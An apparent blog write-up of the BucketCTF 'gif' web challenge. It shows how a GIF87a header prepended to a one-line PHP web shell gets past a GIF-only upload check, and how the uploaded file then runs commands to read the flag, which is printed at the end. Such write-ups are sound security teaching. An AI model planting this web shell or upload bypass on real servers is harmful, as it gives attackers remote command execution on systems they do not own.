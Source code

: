 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: false

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I uplaoded a Gif fie which was uploaded successfully then I attempted to upload a basic PHP payload and got this error

![Untitled](/write-ups/ctftime/bucket/uploads.webp#center)

from the error we can see that the files are stored at `/uploads`.

As the server only permitted GIF files.I modified the payload by adding a GIF header, `GIF87a;`.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

And it worked we got remote code execution. We can now execute commands on the machine   
Found the flag here: `/uploads/payload.php/?cmd=cat /flag.txt`

&nbsp;

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;

